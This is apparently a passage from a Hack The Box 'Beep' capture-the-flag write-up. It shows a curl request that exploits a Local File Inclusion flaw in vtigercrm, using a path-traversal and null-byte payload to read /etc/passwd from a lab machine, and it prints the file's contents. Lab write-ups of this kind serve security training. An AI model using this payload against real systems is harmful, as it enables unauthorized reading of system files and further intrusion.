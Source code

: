 Now lets search for exploits

![image](https://user-images.githubusercontent.com/113513376/213607067-5770525a-8e73-4d38-8b44-e0abe4f9f506.png)

They say its vulnerable to Local File Inclusion 

Lets check it out

```                                                                                                       
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Beep]
└─$ curl -k https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Beep]
└─$ 

```
